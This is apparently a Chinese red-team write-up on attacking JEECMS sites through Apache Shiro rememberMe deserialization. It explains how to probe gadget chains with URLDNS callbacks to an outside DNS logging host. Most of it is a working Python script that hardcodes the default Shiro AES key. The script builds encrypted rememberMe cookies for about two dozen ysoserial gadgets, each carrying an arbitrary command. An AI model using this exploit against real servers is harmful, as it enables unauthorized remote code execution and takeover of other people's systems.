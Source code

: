 # 再战JEECMS-shiro的小技巧



### 前言

又一次攻防中，还是遇到了JEECMS，同样是有key，但是没有常规链可以回显。使用DNSURL利用链可以出网。



### 收集信息

又一个小技巧：通过install.html可以查看jeecms的版本。

![image-20220410004234177](再战JEECMS-shiro.assets/image-20220410004234177.png)



### 使用DNSURL来探测其他利用链

对于shiro，使用成熟的exp工具来自动回显利用的情况已经越来越少。大部分情况下，即使找到key也无法找到合适的利用方式和正确的利用版本（工具生成序列化字符串时使用的依赖版本与服务器上运行的依赖版本不符就会产生报错，无法反序列化）。

但是由于DNSURL链是基于jar包且不受版本影响的，所以遇到shiro的出网的站时，可以用[这个工具](https://github.com/kezibei/Urldns)生成利用链探测payload，实操如下：

![image-20220410010207479](再战JEECMS-shiro.assets/image-20220410010207479.png)

注意此时生成的是base64编码的值，shiro验证和利用还需要自己写脚本进行aes或者gcm的加密。使用Burp输入cookie字段发包后可以得知为Windows服务器，存在c3p0-92版本和cc31版本依赖（但不是一定就可以利用）。

![image-20220410010153960](再战JEECMS-shiro.assets/image-20220410010153960.png)



### 相关EXP脚本

验证时，我则是配合[一个魔改yso](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)写了个脚本来批量生成payload。

```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command,gadget):
    popen = subprocess.Popen(['java', '-jar', '.\\ysoserial-for-woodpecker-0.5.1.jar', '-g', gadget , '-a', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "4AvVhmFLUs0KTA3Kprsdag=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

def encode_rememberme1():
    popen = subprocess.Popen(['java', '-jar', '.\\ysoserial-for-woodpecker-0.5.1.jar', '-g', 'URLDNS' , '-a', 'http://test5.351999e7.dns.1433.eu.org'], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "4AvVhmFLUs0KTA3Kprsdag=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    cmd = sys.argv[1]   
    gadgets = ['C3P0','C3P0_LowVer','CommonsBeanutils1','CommonsBeanutils1_183','CommonsBeanutils2','CommonsBeanutils2_183','CommonsBeanutils3',
    'CommonsCollections1','CommonsCollections2','CommonsCollections3','CommonsCollections4','CommonsCollections5','CommonsCollections6','CommonsCollections7','CommonsCollections8',
    'CommonsCollections9','CommonsCollections10','CommonsCollections11','CommonsCollections6Lite','CommonsCollectionsK1','CommonsCollectionsK2','CommonsCollectionsK3','CommonsCollectionsK4']
    for gadget in gadgets:
        payload=encode_rememberme(cmd,gadget)
        with open("./payload.cookie", "a+") as fpw:
            print("rememberMe={}".format(payload.decode()), file=fpw)

    payload1=encode_rememberme1()
    with open("./payload.cookie", "a+") as fpw:
                print("rememberMe={}".format(payload1.decode()), file=fpw)
```

